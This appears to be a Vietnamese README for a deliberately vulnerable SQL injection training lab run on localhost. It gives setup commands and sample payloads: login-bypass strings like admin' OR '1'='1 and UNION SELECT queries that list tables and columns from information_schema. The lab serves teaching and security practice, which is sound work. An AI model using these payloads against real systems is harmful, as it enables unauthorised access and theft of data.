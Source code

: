 # SQLi Lab (UNION BASED)

## Chạy bằng Python thuần
```bash
python -m venv venv
source venv/bin/activate        # Windows: venv\Scripts\activate
pip install -r requirements.txt
python app.py
```
Mở: `http://localhost:5000`

## Chạy bằng Docker
```bash
docker compose up --build -d
```
Mở: `http://localhost:5000`

---

## 1) SQLi ở trang Login (bypass xác thực)
Form `/login` ghép chuỗi trực tiếp vào câu lệnh SQL.

**Payload mẫu (điền vào form):**
- Username: `admin' OR '1'='1`  
  Password: `anything`
- (Tối thiểu) Username: `' OR '1'='1`  • Password: `x`
- Biến thể có comment MySQL:  
  Username: `admin' OR '1'='1' -- +`

Đăng nhập xong bạn sẽ thấy đã vào được phiên người dùng (hoặc “Xin chào, …”).

---

## 2) SQLi ở trang Product (UNION)
Endpoint: `/product?product_id=...`

**Kiểm tra lỗi cú pháp:**
```
http://localhost:5000/product?product_id=1'
```

**Một số payload:**

Liệt kê các bảng: 
```sql
/product?product_id = 0 UNION SELECT 1,2,3,table_name FROM information_schema.tables WHERE table_schema = database()
```

Liệt kê các cột:
```sql
/product?product_id = 0 UNION SELECT 1,2,3,column_name FROM information_schema.columns WHERE table_name = '...'
```


